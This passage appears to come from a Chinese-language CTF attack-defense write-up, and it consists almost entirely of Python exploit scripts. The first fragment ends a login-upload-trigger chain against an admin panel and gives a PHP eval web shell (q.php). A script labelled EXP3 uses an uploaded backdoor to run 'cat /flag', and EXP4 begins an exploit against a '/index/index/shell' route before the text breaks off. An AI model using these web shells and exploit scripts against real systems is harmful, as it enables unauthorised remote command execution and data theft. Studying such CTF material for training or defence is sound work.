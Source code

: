 ```python
        "Connection": "close",
        "Referer": "http://127.0.0.1:34001/mc-admin/page-edit.php",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    }

    response = requests.request("POST", url, headers=headers, data=payload)

    print(response.text)

try:
    c = Login()
    move(c)
    p = upload(c)
    gogo(p)
except:
    pass
```

这里的`q.php`内容为`&lt;?php eval($_POST["cmd"]);?&gt;`

#### EXP3：后门利用

```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass

url = f"http://{HOST}:{PORT}/uploads/admin/201910/this_is_big.php"
payload = {'x': 'cat /flag'}
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
response = requests.post(url, headers=headers, data=payload)
print(response.text)
```

#### EXP4：生成后门利用

```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass

uri = f"http://{HOST}:{PORT}"
def get1():
  url = uri+'/index/index/shell'
  headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
```